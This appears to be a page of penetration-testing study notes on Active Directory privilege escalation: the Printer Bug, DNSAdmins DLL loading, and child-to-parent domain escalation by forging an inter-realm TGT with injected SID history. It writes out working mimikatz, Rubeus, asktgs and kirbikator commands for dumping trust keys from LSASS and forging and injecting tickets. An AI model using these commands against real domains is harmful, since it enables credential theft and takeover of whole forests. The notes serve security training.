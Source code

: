 **Printer Bug**
- A feature of MS-RPRN which allows any domain user (authenticated user) can force any machine (running the Spooler service) to connect to second machine which is a machine of the domain user's choice.
- `Rubeus.exe monitor /interval:5 /nowrap`
- `MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local`
### Domain Privilege Escalation - DNSAdmins
- It is possible for the members of the "DNSAdmins" group to load arbitrary DLL with the privileges of dns.exe (SYSTEM).
- In case the DC also serves as DNS, this will provide us escalation to DA.
- This technique needs privileges to restart the DNS service.
* `Get-ADGroupMember -Identity DNSAdmins`: Enumerate users who a part of DNSAdmins group.
### Domain Privilege Escalation - Across Trusts
- Across Domains: Implicit two way trust relationship.
- Across Forests: Trust relationship needs to be established.
- Microsoft considers Forest as a security boundary.

 **Child Domain to Parent Domain**
 * Domain admin to Enterprise Admin
- We are targeting a user in Enterprise Admins or Domain Admins in Parent Domain.
- Domains in the same forest have an implicit two-way trust with other domains.
- **sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get new SID and the old SID is added to sIDHistory.**
- We would inject SID History for the 5.1.9 which is a well-known SID for the Enterprise Admins group.
- **We are going to extract the trust key and then forge it an inter-realm TGT where we inject a SID history of an enterprise admin.**
- There is a trust key between the parent and child domains.
- Inter-realm TGT is encrypted using the trust key. That is the trust key shared between domain contollers
- There are two ways of escalating privileges between two domains of the same forest:
    - Krbtgt hash
    - Trust tickets
- **If we try to access any services on the parent domain, DC responds inter-realm TGT ticket rather than TGS ticket. This inter-realm TGT ticket can be used on parent domain's domain controller to generate a TGS ticket. So we get TGS ticket from parent domain and we can use this ticket to access the service inside of parent domain.**
- **This inter-realm TGT is signed and encrypted with trust key**.
- **Domain Controllers just only checks if the ticket can be decrypted with trust key or not.**
- **Trust key is in the child domain's domain controller machine's LSASS process**.
- **Trust key is the machine account's RC4 key named parent domain**.
- The trust key allows to create a inter-realm TGT which is a TGT works on parent domain controller.
* Extracting Trust key from Child Domain: 
	* `"lsadump::trust /patch"`: Execute on child DC with administrator privileges so you can get trust keys. Check for parent domain's trust key.
* So we create a TGT which contains an enterprise admin SID and we can get access to a service as enterprise admin.
* `"kerberos::golden /user:Administrator /domain:<child-domain> /sid:<current-domain-sid> /sids:<enterprise-admins-groups-parent-domain-sid> /rc4:<trust-key> /service:krbtgt /target:<parent-domain> /ticket:trust_tkt.kirbi"'`: To forge a inter-realm TGT ticket for Administrator user to access parent domain's any services including HOST, RPCSS, LDAP etc.
* Services for tickets: **HOST and RPCSS for WMI, HTTP for Powershell Remoting and WinRm.**
**Exploitation 1 with forged Inter-Realm TGT Tickets**
- Get a TGS for a service (CIFS below) in the parent domain by using the forged TGT 
	- `asktgs.exe trust_tkt.kirbi CIFS/<parentdomainDC-FQDN>`
- Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for WinRM) can be created as well.
- `kirbikator.exe lsa .\ticket.kirbi`: To inject ticket from file to memory.
- `klist`: Check tickets
- `ls \\parent-dc.domain.fqdn\c$`: To access filesystem of the DC. (CIFS service)
- **If a single child domain was compromised which means getting access to domain admins, all forest will be compromised**.